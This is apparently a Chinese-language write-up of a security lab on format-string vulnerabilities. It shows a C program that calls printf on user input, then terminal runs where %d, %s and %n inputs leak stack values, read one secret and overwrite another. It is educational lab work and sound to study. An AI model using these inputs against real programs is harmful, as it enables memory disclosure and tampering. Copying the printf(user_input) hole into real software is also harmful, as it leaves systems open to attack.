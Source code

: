 ```c
/* Vulnerable place */
printf(user_input);
printf("\n");
/* Verify whether your attack is successful */
printf("The original secrets: 0x%x -- 0x%x\n", SECRET1, SECRET2);
printf("The new secrets: 0x%x -- 0x%x\n", secret[0], secret[1]);
return 0;
}
```

1. 编译运行获得如下结果:
```
[04/10/2018 22:39] seed@ubuntu:~/Seed$ ./a.out 
The variable secret’s address is 0xbffff2e8 (on stack)
The variable secret’s value is 0x 804b008 (on heap)
secret[0]’s address is 0x 804b008 (on heap)
secret[1]’s address is 0x 804b00c (on heap)
Please enter a decimal integer
1
Please enter a string
%d,%d,%d,%d,%d,%d,%d
-1073745172,0,-1208008724,-1073745004,1,134524936,623666213
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x55

```
由结果可以推断:
**printf 函数栈的第5个参数是int_input的值**

2. 我们修改int_input的值为secret[1]的地址会发生什么?
运行获得如下结果:
```
[04/10/2018 22:39] seed@ubuntu:~/Seed$ ./a.out 
The variable secret’s address is 0xbffff2e8 (on stack)
The variable secret’s value is 0x 804b008 (on heap)
secret[0]’s address is 0x 804b008 (on heap)
secret[1]’s address is 0x 804b00c (on heap)
Please enter a decimal integer
134524940
Please enter a string
%d,%d,%d,%d,%s
-1073745172,0,-1208008724,-1073745004,U
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x55

```
由结果可以推断:  
字符U的ascii码为0x55,  
完成任务1:打印secret[1]的值.  

3. 试一试%n ?
运行获得如下结果:
```
[04/10/2018 22:58] seed@ubuntu:~/Seed$ ./a.out 
The variable secret’s address is 0xbffff2e8 (on stack)
The variable secret’s value is 0x 804b008 (on heap)
secret[0]’s address is 0x 804b008 (on heap)
secret[1]’s address is 0x 804b00c (on heap)
Please enter a decimal integer
134524940
Please enter a string
%x,%x,%x,%x,%n
bffff2ec,0,b7ff3fec,bffff394,
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x1d
```